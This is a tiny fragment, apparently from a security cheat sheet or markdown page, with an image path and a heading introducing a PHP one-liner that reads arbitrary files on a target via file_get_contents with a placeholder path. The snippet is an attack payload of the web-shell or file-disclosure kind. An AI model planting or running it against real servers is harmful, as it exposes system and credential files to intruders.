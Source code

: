 
##### One liner to read arbitrary files
`<?php echo file_get_contents('/path/to/target/file'); ?>`


